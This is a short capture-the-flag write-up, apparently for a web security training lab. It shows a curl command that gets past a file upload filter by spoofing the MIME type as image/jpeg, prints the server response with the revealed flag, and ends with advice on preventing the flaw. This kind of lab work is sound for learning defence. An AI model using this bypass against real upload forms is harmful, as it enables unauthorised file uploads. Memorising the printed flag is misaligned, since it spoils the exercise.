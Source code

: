 # First step

After checking the http://10.12.180.85/index.php?page=upload page, i see that nothing happens after uploading an image or uploading a file.txt, there is just "/tmp/image.jpg succesfully uploaded."or " Your image was not uploaded. " message, nothing special, so what about uploading an image from your terminal by curl

# How to do that

Go to the folder your image stored in, run:

```bash
curl -X POST -F "uploaded=@payload.txt;type=image/jpeg" -F "MAX_FILE_SIZE=100000" -F "Upload=Upload" http://10.12.181.103/index.php\?page\=upload | grep 'flag'
```

then the result is:
```bash
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3157    0  2750  100   407    538     79  0:00:05  0:00:05 --:--:--   703
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/payload.txt succesfully uploaded.</pre>

```

here is the flag 
```
46910d9ce35b385885a9f7e2bXXXXXXXXXXXXX
```


##  Prevention

Use input validation in both frontend and backend

Always check on the extenssion of the file not only the MIME

Restrict the maximum size of uploaded files to prevent Denial of Service (DoS) attacks or resource overloading

Avoid using the original file name provided by the user, as it can contain malicious code or lead to name collisions

Restrict File Permissions

Check file headers to ensure they match the claimed type